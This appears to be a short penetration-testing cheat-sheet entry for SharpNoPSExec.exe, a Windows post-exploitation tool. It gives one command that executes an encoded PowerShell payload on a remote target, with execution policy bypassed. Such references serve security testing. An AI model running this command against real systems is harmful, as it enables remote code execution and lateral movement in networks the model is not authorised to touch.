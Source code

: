 # SharpNoPSExec.exe
% windows, network

#plateform/windows #target/remote #cat/POSTEXPLOIT

## Remote - Exec command
```
SharpNoPSExec.exe --target=<ip> --payload="c:\windows\system32\cmd.exe /c powershell -exec bypass -nop -e <b64enc_payload>"
```
